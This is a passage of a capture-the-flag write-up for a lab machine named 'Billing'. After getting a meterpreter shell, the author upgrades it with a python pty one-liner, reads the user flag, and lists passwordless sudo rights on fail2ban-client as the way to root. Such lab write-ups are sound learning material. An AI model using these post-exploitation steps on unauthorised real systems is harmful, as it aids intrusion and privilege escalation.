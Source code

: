 And voila! We have a shell! I then did the usual of having a basic shell through python.
```shell
meterpreter > shell
Process 2845 created.
Channel 0 created.
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
asterisk@Billing:/var/www/html/mbilling/lib/icepay$
```
# User Flag
The user flag was straightforward. Upon checking the `/home/` directory we see that anybody can read the directory and the user flag present inside was also readable.
```shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ls -l /home
total 4
drwxr-xr-x 15 magnus magnus 4096 Sep  9  2024 magnus
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ls -l /home/magnus/
total 36
drwx------ 2 magnus magnus 4096 Mar 27  2024 Desktop
drwx------ 2 magnus magnus 4096 Mar 27  2024 Documents
drwx------ 2 magnus magnus 4096 Mar 27  2024 Downloads
drwx------ 2 magnus magnus 4096 Mar 27  2024 Music
drwx------ 2 magnus magnus 4096 Mar 27  2024 Pictures
drwx------ 2 magnus magnus 4096 Mar 27  2024 Public
drwx------ 2 magnus magnus 4096 Mar 27  2024 Templates
drwx------ 2 magnus magnus 4096 Mar 27  2024 Videos
-rw-r--r-- 1 magnus magnus   38 Mar 27  2024 user.txt
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ cat /home/magnus/user.txt
THM{4a..REDACTED..ca}
```

# Root Flag

Once I get a foothold or user flag, one of the first things I do is check what can I run as a superuser. And luckily enough we do have permission to run certain application as `sudo`.

```shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
asterisk@Billing:/var/www/html/mbilling/lib/icepay$
```
